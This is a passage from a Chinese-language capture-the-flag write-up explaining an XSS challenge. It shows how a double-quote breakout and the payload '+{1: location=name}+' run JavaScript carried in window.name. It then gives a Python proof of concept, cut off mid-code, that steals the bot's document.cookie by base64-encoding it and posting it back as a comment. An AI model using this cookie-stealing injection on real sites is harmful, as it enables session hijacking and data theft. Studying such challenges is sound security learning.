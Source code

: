 可以看到就是我们设置的 name。而如果是正常打开的网站，那么 `name` 就是空字符串。所以，我们可以让 bot 在跳转的同时，在 `name` 里面带上我们的信息，而这个信息要有多长就能有多长。

然后对于练习网站，正常情况下是这样：

```javascript
updateElement("#comment", "你留下的评论：114514");
```

但是如果有双引号，就会变成这样：

```javascript
updateElement("#comment", "你留下的评论：114"514");
```

所以如果评论内容是 `"+ 1 +"`，那么就是：

```javascript
updateElement("#comment", "你留下的评论："+ 1 +"");
```

如果不考虑长度限制，怎么执行任意 JavaScript 呢？可以这样：

```javascript
updateElement("#comment", "你留下的评论："+{1: 某种_js_payload}+"");
```

这里这个 object 的 key 是 1，value 就可以是我们想要的 JS 表达式了。但是因为字符集限制，没法轻松构造。但是如果用前面提到的 `name`，就会轻松很多：

```javascript
// Not working
updateElement("#comment", "你留下的评论："+{1: window.location=window.name}+"");
```

这样只要 `window.name` 以 `javascript:` 开头，就能执行我们想要的 JS 代码。但是 `.` 也被过滤了，怎么办？有一个有趣的事情是，`window.` 是可以被省略的，比如说 `alert(1)` 事实上是 `window.alert(1)`。所以最后是这样：

```javascript
updateElement("#comment", "你留下的评论："+{1: location=name}+"");
```

`"+{1: location=name}+"` 也满足了长度要求。只要在 `name` 里面放上把 cookie 当成评论提交的代码，就大功告成了——不过 flag 好像超过了 25 字符，而且 `%` 也被过滤了，所以需要多次提交，并且使用 base64 编码。

我的 PoC（PoC 后有更短解答）：

```python
import requests
from pwn import *
import base64
from urllib.parse import unquote_plus
context.log_level = "debug"

token = "1:MEUCIQCEJiCXisdA/oxfjHZYMe10yvtiJKDWQBHlFsEn2I5FcgIgFhac4IiXwHFzLYNdOrFhxzQe9LrA7A8AtZ6Fd24mxNI="
hostname = "localhost"

s = requests.Session()
s.get(f"http://{hostname}:10051/?token=" + token)
html = """<script>
var victim=window.open("http://web/result", 'javascript:fetch("/result", {"headers": {"Content-Type": "application/x-www-form-urlencoded",},"body": `comment=${btoa(document.cookie.substring(%start%, %end%))}`,"method": "POST",});')
</script>
EOF"""

# 先做题
s.post(f"http://{hostname}:10051", data={
    "q1": "1", "q2": "1", "q3": "1", "q4": "1", "q5": "1"
})

def post_payload():
    s.post(f"http://{hostname}:10051/result", data={"comment": '"+{a: location=name}+"'})
```